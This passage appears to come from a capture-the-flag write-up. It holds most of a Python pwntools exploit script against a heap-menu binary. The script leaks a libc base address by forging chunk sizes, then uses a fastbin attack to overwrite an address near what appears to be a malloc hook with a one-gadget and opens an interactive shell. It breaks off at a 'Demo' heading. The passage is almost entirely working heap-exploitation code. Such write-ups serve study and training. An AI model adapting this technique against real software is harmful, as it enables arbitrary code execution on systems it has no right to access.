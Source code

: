 ```python
        self.allocate_cmd(128)
        self.allocate_cmd(128)
        self.free_cmd(2)
        self.free_cmd(1)
        self.fill_cmd(0, 33, "\x00"*24+p64(0x21)+p8(0x80))
        self.fill_cmd(3, 32, "\x00"*24+p64(0x21))
        self.allocate_cmd(16)
        self.allocate_cmd(16)
        self.fill_cmd(3, 32, "\x00"*24+p64(0x91))
        self.free_cmd(4)
        data=self.dump_cmd(2)[10:]
        return u64(data[:6]+"\x00"*2)

    def rewrite_addr(self, src, dest):
        self.allocate_cmd(104)
        self.allocate_cmd(104)
        self.allocate_cmd(104)
        self.allocate_cmd(104)
        self.free_cmd(8)
        self.free_cmd(7)
        self.fill_cmd(6, 120, "\x00"*104+p64(0x70)+p64(src))
        self.allocate_cmd(104)
        self.allocate_cmd(104)
        self.fill_cmd(8, 27, "A"*19+p64(dest))
        self.p.sendline("1")
        self.p.recvuntil("Size: ")
        self.p.sendline(str(1337))
        self.p.interactive()
        self.p.close()

    def pwn_binary(self):
        self.start_binary()

        base_libc=self.leak_libc()-0x399b58
        log.info("Leak libc base address: "+hex(base_libc))

        self.rewrite_addr(base_libc+0x399acd, base_libc+0x3f35a)


def main():
    pwn = Pwn()
    pwn.pwn_binary()


if __name__ == "__main__":
    main()
```

# Demo
Let's test it:
